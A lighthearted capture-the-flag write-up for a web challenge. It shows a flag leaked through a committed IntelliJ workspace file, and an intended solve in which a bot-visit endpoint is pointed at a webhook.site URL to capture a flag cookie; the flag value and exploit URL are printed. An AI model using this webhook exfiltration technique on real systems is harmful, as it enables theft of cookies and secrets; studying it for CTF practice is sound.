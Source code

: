 # Web Lover

Greetings, fellow seekers of the deep seas and web wonders! 🌊🦈 BLAHAJ is here to guide you through a web challenge!

## Unintended aquatic adventure 🐟

Our shark squad embarked on a mission to conquer this challenge right from the get-go. Alas, the Docker containers played hard to get, forcing us to embark on an epic journey through the source code. Lo and behold, we stumbled upon a hidden treasure within the `.idea` folder—the mysterious `workspace.xml` file.

Swimming through the XML depths, we uncovered a fascinating revelation:

```xml
<envs>
    <env name="flag" value="blahaj{x55_exi5t5_n0t_ju5t_in_scr1pt}" />
</envs>
```

What a fin-tastic find! It appeared to be a flag, and without a second thought, we submitted it. To our delight, it was the key to unlocking this underwater mystery!

*It is important for us to use .gitignore properly to ensure that information about the environment and editor we use (in this case an IntelliJ editor) are not leaked, as it may contain build/debug information, including API secrets etc.*

## Intended solve: Chrome Chronicles 🌐

Venturing further, we stumbled upon a curious code snippet:

```py
Copy code
@app.route("/visit")
def visit():
    chrome_options = Options()
    chrome_options.add_argument("--headless")
    with webdriver.Chrome() as driver:
        driver.get("http://127.0.0.1:50100")
        driver.add_cookie({"name": "favorite_site", "value": os.environ["flag"]})
        try:
            driver.get(request.args.get("site"))
            return "Visited"
        except:
            return "Invalid URL"
```

Armed with the sacred URL `http://188.166.197.31:30016/visit?site=https%3A%2F%2Fwebhook.site%2Fe1208e41-fcf7-4a4f-b331-ff4da56265bf`, victory was ours!

![Screenshot of request bin](./blahajctf-2023/hi.png)

May your web adventures be as fruitful as a bountiful sea harvest! 🌐🦑
